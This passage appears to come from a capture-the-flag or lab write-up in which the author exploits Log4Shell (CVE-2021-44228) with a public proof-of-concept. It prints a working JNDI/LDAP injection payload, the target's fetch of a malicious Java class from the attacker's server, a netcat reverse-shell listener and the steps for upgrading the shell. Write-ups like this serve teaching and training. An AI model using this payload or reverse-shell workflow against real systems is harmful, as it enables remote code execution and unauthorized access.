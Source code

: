When I run this, it gives the payload to send to the target:

    
    
    oxdf@hacky$ python poc.py --userip 10.13.0.30 --webport 8000 --lport 443
    
    [!] CVE: CVE-2021-44228
    [!] Github repo: https://github.com/kozmer/log4j-shell-poc
    
    [+] Exploit java class created success
    [+] Setting up LDAP server
    
    [+] Send me: ${jndi:ldap://10.13.0.30:1389/a}
    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    
    Listening on 0.0.0.0:1389
    

When I send that payload through the chat, first there’s a hit at the exploit:

    
    
    Send LDAP reference result for a redirecting to http://10.13.0.30:8000/Exploit.class
    152.96.15.3 - - [19/Dec/2023 22:40:46] "GET /Exploit.class HTTP/1.1" 200 -
    

And then at my `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 152.96.15.3 38106
    

To upgrade my shell, I’ll get a PTY with `script`, background, update the
`stty`, and `fg` (the standard trick explained
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$
    

This is a functional shell as the server user:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$ id
    uid=101(server) gid=65534(nogroup) groups=65534(nogroup)
    

### Privesc

#### Enumeration
